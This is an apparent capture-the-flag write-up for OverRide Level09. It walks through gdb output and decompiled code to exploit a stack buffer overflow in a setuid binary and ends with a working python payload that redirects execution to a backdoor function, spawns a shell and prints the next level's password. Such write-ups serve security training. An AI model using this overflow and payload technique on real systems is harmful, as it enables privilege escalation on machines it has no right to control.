# Level09

## Walkthrough

We list the files in the current home directory.

```bash
level09@OverRide:~$ ls -lA
total 25
-rw-r--r--  1 level09 level09   220 Oct  2  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Oct  2  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level09 level09  3534 Oct  2  2016 .bashrc
-rw-r--r--+ 1 level09 level09    41 Oct 19  2016 .pass
-rw-r--r--  1 level09 level09   675 Oct  2  2016 .profile
-rwsr-s---+ 1 end     users   12959 Oct  2  2016 level09
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

The file `level09` is owned by **end**, is 64-bit, and has the setuid bit.

```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x00000000000006f0  _init
0x0000000000000720  strncpy
0x0000000000000720  strncpy@plt
0x0000000000000730  puts
0x0000000000000730  puts@plt
0x0000000000000740  system
0x0000000000000740  system@plt
0x0000000000000750  printf
0x0000000000000750  printf@plt
0x0000000000000760  __libc_start_main
0x0000000000000760  __libc_start_main@plt
0x0000000000000770  fgets
0x0000000000000770  fgets@plt
0x0000000000000780  __cxa_finalize
0x0000000000000780  __cxa_finalize@plt
0x0000000000000790  _start
0x00000000000007bc  call_gmon_start
0x00000000000007e0  __do_global_dtors_aux
0x0000000000000860  frame_dummy
0x000000000000088c  secret_backdoor
0x00000000000008c0  handle_msg
0x0000000000000932  set_msg
0x00000000000009cd  set_username
0x0000000000000aa8  main
0x0000000000000ad0  __libc_csu_init
0x0000000000000b60  __libc_csu_fini
0x0000000000000b70  __do_global_ctors_aux
0x0000000000000ba8  _fini
```

There are 5 user-defined functions: `main()`, `set_username()`, `set_msg()`, `handle_msg()` and `secret_backdoor()`.

We download the executable and upload it on **Dogbolt** in order to understand the logic of the program.

[Link to the decompiled executable](https://dogbolt.org/?id=f1613b2e-2c3d-4b75-97e9-8137a7378884)

The `secret_backdoor()` function calls `system()`, passing an user input as first argument. It means we can call `system("/bin/sh")` if we are able to enter into this function.

We find its address.

```
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) disas secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   rbp
   0x000055555555488d <+1>:     mov    rbp,rsp
   0x0000555555554890 <+4>:     add    rsp,0xffffffffffffff80
   0x0000555555554894 <+8>:     mov    rax,QWORD PTR [rip+0x20171d]        # 0x555555755fb8
   0x000055555555489b <+15>:    mov    rax,QWORD PTR [rax]
   0x000055555555489e <+18>:    mov    rdx,rax
   0x00005555555548a1 <+21>:    lea    rax,[rbp-0x80]
   0x00005555555548a5 <+25>:    mov    esi,0x80
   0x00005555555548aa <+30>:    mov    rdi,rax
   0x00005555555548ad <+33>:    call   0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:    lea    rax,[rbp-0x80]
   0x00005555555548b6 <+42>:    mov    rdi,rax
   0x00005555555548b9 <+45>:    call   0x555555554740 <system@plt>
   0x00005555555548be <+50>:    leave
   0x00005555555548bf <+51>:    ret
End of assembler dump.
```

The address of the first instruction of `secret_backdoor()` is `0x000055555555488c`.

Now, we need to find out how to call it, probably by overwriting the value of an `old rip` somewhere.

The program requests 2 information from the user, first his username, then a message, using the `fgets()` function.  
A buffer of 140 bytes is passed to `set_username()` and `set_msg()`, but we notice some exploitable instructions.

First in `set_username()`.

```c
for ( i = 0; i <= 40 && s[i]; ++i )
  *(_BYTE *)(a1 + i + 140) = s[i];
```

`a1` is the buffer of 140 bytes declared in `handle_msg()` and `s` is the first user input from `fgets()`. The loop allows the user to write past the buffer's end, up to 41 bytes.

Then in `set_msg()`.

```c
return strncpy((char *)a1, s, *(int *)(a1 + 180));
```

`a1` is the buffer of 140 bytes declared in `handle_msg()` and `s` is the second user input from `fgets()`. The argument passed for the size is a converted integer from the 180th byte in `a1`.  
As seen from the `set_username()` analysis, we can write up to the index 180 of the buffer declared in `handle_msg()`. Therefore we can only pass a maximum size of 256 to `strncpy()`.

We check the offset required to overwrite the `old rip` register stored at the start of the `handle_msg()` function.

```
(gdb) b handle_msg
Breakpoint 1 at 0x8c4
(gdb) r
Starting program: /home/users/level09/level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe4d0:
 rip = 0x5555555548c4 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe4e0
 Arglist at 0x7fffffffe4c0, args: 
 Locals at 0x7fffffffe4c0, Previous frame's sp is 0x7fffffffe4d0
 Saved registers:
  rbp at 0x7fffffffe4c0, rip at 0x7fffffffe4c8
```

The `old rip` value is stored at the address `0x7fffffffe4c8`.

Then we find the address of the buffer of 140 bytes declared in `handle_msg()`.

```
(gdb) b set_username
Breakpoint 2 at 0x5555555549d1
(gdb) c
Continuing.

Breakpoint 2, 0x00005555555549d1 in set_username ()
(gdb) i r rdi
rdi            0x7fffffffe400    140737488348160
```

The address of the buffer is `0x7fffffffe400`.

We substract the values in order to find the offset: 140737488348360 - 140737488348160 = 200. Because we are running a 64 bits executable, we have to add 8 bytes for the `old rbp` value stored on the stack, above `old rip`.

To sum up, we have to:
- write 40 bytes followed by the value `0xd0` (208) as first input
- write 200 bytes followed by the address of the `secret_backdoor()` function as second input
- write `/bin/sh` as third input

```bash
level09@OverRide:~$ (python -c "print('a' * 40 + '\xd0' + '\n' + 'b' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh')"; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
